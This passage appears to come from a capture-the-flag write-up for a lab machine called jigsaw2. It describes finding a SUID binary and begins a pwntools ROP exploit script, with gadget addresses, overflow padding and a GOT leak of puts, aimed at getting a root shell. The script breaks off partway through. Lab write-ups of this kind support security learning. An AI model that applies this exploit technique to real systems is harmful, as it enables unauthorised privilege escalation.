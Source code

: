 I found out that `jigsaw` user is a `sudoer`

![](images/jigsaw2/sudoer.png)

And I found a suspicious binary

![](images/jigsaw2/suid.png)

We are supposed to exploit this ROP binary to get a shell with `uid=0`

With the help of [@Robin](https://d4mianwayne.github.io/) and [@kileak](https://kileak.github.io/) I was able to spwan a shell but couldn't get the `Setuid` working.

```python
#!/usr/bin/python
from pwn import *
import sys
import warnings
warnings.filterwarnings("ignore")

HOST = "192.168.184.129"
PORT = 22

def exploit(r):
    POPRDI = 0x00000000004005b3
    POPRSI15 = 0x4005b1

    payload = "A"*208
    payload += p64(0x600500)
    payload += p64(POPRDI)
    payload += p64(e.got["puts"])
```